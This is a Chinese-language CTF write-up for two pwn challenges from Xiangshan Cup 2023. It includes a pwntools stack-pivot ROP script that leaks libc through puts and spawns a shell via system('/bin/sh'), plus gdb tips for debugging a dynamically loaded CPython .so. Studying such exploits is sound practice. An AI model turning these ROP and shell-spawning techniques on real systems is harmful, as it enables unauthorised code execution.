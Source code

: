 ```yaml
---
title: 「PWN」【香山杯2023】Writeup WP 复现

tags: ["CTF", "Pwn", "writeup", "wp"]

authors: [nova]
---
```


两题简单 PWN，单纯更新一下，记录一下 Python 调试

一个栈迁移，一个 CPython .so 逆向



## move

纯纯签到，栈迁移泄露 libc 打 system 即可（省略 Snippet 部分）

注意到进第二次 read 前，正好 RSP 是 bss + 8，进到 read 时正好到 bss 了，此时 ret 就直接回到了 bss 处，完全不需要第二次迁移。

```python
pop_rdi = 0x0000000000401353
bss = 0x4050a0
leave_ret = 0x40124b

sendafter(b'again!', p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.symbols['main']))
sendafter(b'number', p32(0x12345678))
dbg(pause_time=5)
sendafter(b'TaiCooLa', b'A'*0x30 + p64(bss-8) + p64(leave_ret))

libc.address = u64(recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
print(f'libc: {hex(libc.address)}')
sendlineafter(b'again!', p64(pop_rdi) + p64(libc.search(b'/bin/sh').__next__()) + p64(libc.symbols['system']))
interactive()

```

## Pwnthon

用 CPython 写的 .so，需要相同的 Python 版本才能导入。

注意到这个 .so 文件是动态加载的，因此不能通过 `gdb.debug` 直接下断点。但是测试的时候又发现我卡在 read 时再下断并不能 c 过去

:::info

事后推测可能是断点下错位置了，不好评价

:::

因此我采用一种比较 tricky 的方法，就是把断点下到 `PyImport_ImportModule+4` 的位置，看导到哪个包时 .so 被加载，此时再下断，后面调试的时候下条件断点即可。

```python
b *PyImport_ImportModule+4 if strcmp((char*)$rdi, "datetime") == 0
```
